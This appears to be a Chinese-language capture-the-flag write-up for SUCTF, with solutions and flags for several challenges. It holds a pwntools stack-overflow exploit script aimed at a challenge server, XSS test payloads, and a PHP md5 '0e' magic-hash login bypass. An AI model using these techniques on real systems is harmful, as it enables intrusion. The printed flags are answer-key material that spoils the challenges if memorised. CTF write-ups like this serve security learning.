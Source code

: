 # SUCTF


### 这是你 hello pwn？
小伙伴大神做的
```
from pwn import *

pwn = remote('118.193.194.73',10000)

pwn.recvuntil('let\'s begin!\n')

payload = ''
payload += 'a'*112
payload += p32(0x0804865D)

pwn.sendline(payload)

pwn.interactive()
```  
*SUCTF{5tack0verTlow_!S_s0_e4sy}*


### Web--flag 在哪？
在cookie里  
*suctf{Thi5_i5_a_baby_w3b}*


### Web--编码
密码框，开firebug看下，在请求头里有password，base64多解几次得到明文，  
然后submit被禁用，而且是get方式提交，用hackbar发过去即可  
*suctf{SU_is_23333}*


### Web--XSS1
输入 `</pre><script>alert(1);</script>`   就剩下一个 `>`  
输入`</pre><img src="javascript:alert('XSS')">`  剩下 `('XSS')">`  
明神说 a标签可以，乱试了下 `<a href="alert(1);">` 得到了flag  
*suctf{too_eaSy_Xss}*


### Web--PHP是世界上最好的语言
password经过md5之后前两位是0e就可以了，这样就是识别成0  
http://45.63.58.62:8088/xedni.php?password=s878926199a  
这样就可以  
*suctf{PHP_!s_the_bEst_1anguage}*


### Web--( ゜- ゜)つロ 乾杯~
aaencode加brainfuck  
aaencode可以直接控制台执行，好像复制有点麻烦[http://www.kwstu.com/ArticleView/kwstu_2014413102448223](http://www.kwstu.com/ArticleView/kwstu_2014413102448223)  
这个可以在线运行js代码  
brainfuck的[https://www.splitbrain.org/services/ook](https://www.splitbrain.org/services/ook)  
解码即可  
*suctf{aAenc0de_and_bra1nf\**k}*
